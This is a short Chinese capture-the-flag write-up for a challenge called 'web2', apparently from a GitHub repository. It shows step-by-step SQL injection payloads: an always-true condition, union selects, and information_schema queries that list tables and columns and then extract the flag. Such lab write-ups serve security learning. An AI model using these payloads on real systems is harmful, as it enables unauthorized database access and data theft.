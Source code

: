## web2

+ 启动环境，根据提示这一关是<code>sql</code>注入，打开后发现有几个注入点

![web2_1](./img/web2_1.PNG)



+ 注入万能语句，成功找到注入点

~~~ shell
1' or 1=1 #
~~~

![web2_2](./img/web2_2.png)



+ 注入以下语句，得到回显的位置

~~~ shell
1' union select 1,2,3#
~~~

![web2_3](./img/web2_3.PNG)



+ 联合查询，得到数据表名

~~~ shell 
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = database()#
~~~

![web2_4](./img/web2_4.png)



+ 继续联合查询，得到字段名

~~~ shell
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='flag'#
~~~

![web2_5](./img/web2_5.png)



+ 最后爆破字段，得到<code>flag</code>

~~~ shell
1' union select 1,flag,3 from flag#
~~~

![web2_6](./img/web2_6.PNG)

